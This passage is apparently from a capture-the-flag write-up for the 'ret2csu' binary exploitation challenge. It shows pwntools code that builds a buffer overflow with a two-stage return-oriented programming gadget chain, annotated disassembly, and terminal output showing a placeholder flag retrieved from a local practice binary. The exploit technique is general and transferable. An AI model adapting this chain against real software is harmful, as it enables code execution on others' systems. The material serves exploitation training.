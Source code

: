 ```python
│           0x004006a2      pop   r15
└           0x004006a4      ret
'''
#Determine the loop values for conditional branch
'''
╎│          0x00400689      call  qword [r12 + rbx*8]
│      ╎│   0x0040068d      add   rbx, 1
│      ╎│   0x00400691      cmp   rbp, rbx
│      └──< 0x00400694      jne   0x400680
'''

stage1 = pop_rbx_rbp_r12_r13_r14_r15_addr
stage1 += pwn.p64(0)   #set RBP=0
stage1 += pwn.p64(1)   #set RBX=1
stage1 += dereference_pointer #set R12
stage1 += arg1   #R13
stage1 += arg2   #R14
stage1 += arg3   #R15
stage1 += stage2_addr
stage1 += pwn.p64(0)*7   #adjust the stack

#stage2
'''
   ┌──>     0x00400680      mov   rdx, r15
│      ╎│   0x00400683      mov   rsi, r14
│      ╎│   0x00400686      mov   edi, r13d
│      ╎│   0x00400689      call  qword [r12 + rbx*8]
'''

stage2 = pop_rdi
stage2 +=arg1
stage2 +=ret2win_addr

payload = b"A"*32
payload += b"B"*8
payload += b"" .join([
    stage1,
    stage2
    ])

io.writeafter('>', payload)
pwn.info(io.recvall().decode())
```

Running the code above we get a correct flag

```bash
vx@archie:ret2csu$ python3 xpl.py
[+] Starting local process './ret2csu': pid 18869
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[+] Receiving all data: Done (45B)
[*] Process './ret2csu' stopped with exit code 0 (pid 18869)
[*]  Thank you!
    ROPE{a_placeholder_32byte_flag!}
```
